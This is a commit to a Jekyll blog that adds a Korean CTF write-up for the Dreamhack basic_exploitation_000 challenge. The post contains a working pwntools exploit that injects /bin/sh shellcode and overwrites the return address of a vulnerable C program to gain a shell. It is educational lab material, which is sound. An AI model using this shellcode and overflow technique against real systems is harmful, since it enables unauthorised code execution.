

Before and after one commit to d0razi/d0razi.github.io, a Jekyll site: the page built from _posts/2023-08-10-Dreamhack-basic-ex-001.md, in a window 1280 px wide and 900 px high, scrolled down 2972 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded; before the commit the page ends 3848 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
add post

````diff
--- /dev/null
+++ b/_posts/2023-08-09-Dremhack-basic-ex-000.md
@@ -0,0 +1,109 @@
+---
+title: "[Dreamhack] basic_exploitation_000 Write up"
+author: d0razi
+date: 2023-08-09 12:30
+categories: [InfoSec, Pwn]
+tags: [linux, Dreamhack]
+toc: false
+image: /assets/img/media/banner/dreamhack.jpg
+---
+
+# C 코드
+
+```c
+#include <stdio.h>
+#include <stdlib.h>
+#include <signal.h>
+#include <unistd.h>
+
+void alarm_handler() {
+    puts("TIME OUT");
+    exit(-1);
+}
+
+void initialize() {
+    setvbuf(stdin, NULL, _IONBF, 0);
+    setvbuf(stdout, NULL, _IONBF, 0);
+
+    signal(SIGALRM, alarm_handler);
+    alarm(30);
+}
+
+int main(int argc, char *argv[]) {
+
+    char buf[0x80];
+
+    initialize();
+
+    printf("buf = (%p)\n", buf);
+    scanf("%141s", buf);
+
+    return 0;
+}
+```
+
+printf에서 buf함수의 주소를 출력해주기때문에 scanf에서 쉘코드를 buf에 삽입해주고 리턴주소까지 더미데이터를 채운다음 리턴주소를 buf의 주소로 바꿔주면 쉘코드를 실행시킬수 있을꺼같다.
+
+---
+
+# 파일 분석
+
+우리가 디버깅을 하면서 알아내야 하는 정보를 정리해보자
+
+- 출력되는 buf의 주소 변수에 담기
+- scanf우회 쉘코드
+- 리턴까지의 거리
+
+일단 buf의 주소는 pwntools를 사용해 받겠습니다.
+
+scanf우회 쉘코드는 사이트에서 가져왔다. *[출처](https://hackhijack64.tistory.com/38)*
+
+이제 알아야하는건 buf에서 return까지의 거리다. 디버깅을 해서 알아내보자.
+
+디버깅은 peda를 사용했습니다.
+
+![main+28번째 줄을 보면 ebp-0x80 주소를 eax에 옮겨주는걸 볼수있다.](/assets/img/media/post_img/dreamhack/basic_ex_000/Untitled.png)
+
+main+28번째 줄을 보면 ebp-0x80 주소를 eax에 옮겨주는걸 볼수있다.
+
+그래서 난 buf의 위치가 ebp에서부터 0x80만큼 떨어져있다고 생각했다.
+
+만약 buf가 ebp에서부터 0x80만큼 떨어져있다면 0x80+0x4(ebp)만큼 더미데이터를 입력하고 buf의 주소를 입력해주면 될꺼같다.
+
+이제 모든 정보를 얻었으니 익스플로잇 코드를 짜보자.
+
+---
+
+# Exploit
+
+```python
+from pwn import *
+
+p = process('./basic_exploitation_000')
+
+p.recvuntil(b'buf = (')
+buf_addr = int(p.recv(10),16)
+
+payload = b'\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80'
+payload += b'A' * 106
+payload += p32(buf_addr)
+
+p.sendline(payload)
+p.interactive()
+```
+
+자 일단 순서를 간단하게 말해보자면
+
+1. 출력되는 버프의 주소를 받아서 변수에 넣기
+2. 쉘코드를 먼저입력해주고 뒤에 ebp까지 더미데이터를 담기
+3. 마지막의 ret값을 buf의 주소로 덮어주기
+
+이렇게 순서가 된다.
+
+코드 초반부분에 p.recvuntil 함수를 사용해서 buf 주소의 앞 문자열을 날려주고 그밑에 int(p.recv(10),16) 코드로 처음부터 10문자를 16진수로 받아서 변수에 담아준다.
+
+그리고 그 밑에는 페이로드의 처음부분을 26바이트 쉘코드를 써주고 0x84(10진수로 106)만큼 더미데이터로 덮어준다. 그리고 그뒤에있는 ret값을 아까받은 buf의 주소로 덮어준다.
+
+![Untitled](/assets/img/media/post_img/dreamhack/basic_ex_000/Untitled%201.png)
+
+실행시키면 쉘이 따진걸 볼 수 있다.
--- a/_posts/2023-08-09-Dreamhack-basic-ex-001.md
+++ b/_posts/2023-08-10-Dreamhack-basic-ex-001.md
@@ -1,7 +1,7 @@
 ---
 title: "[Dreamhack] basic_exploitation_001 Write up"
 author: d0razi
-date: 2023-08-09 12:30
+date: 2023-08-10 12:30
 categories: [InfoSec, Pwn]
 tags: [linux, Dreamhack]
 toc: false
````
Also changed, not shown: assets/img/media/post_img/dreamhack/basic_ex_000/Untitled 1.png (added), assets/img/media/post_img/dreamhack/basic_ex_000/Untitled.png (added).
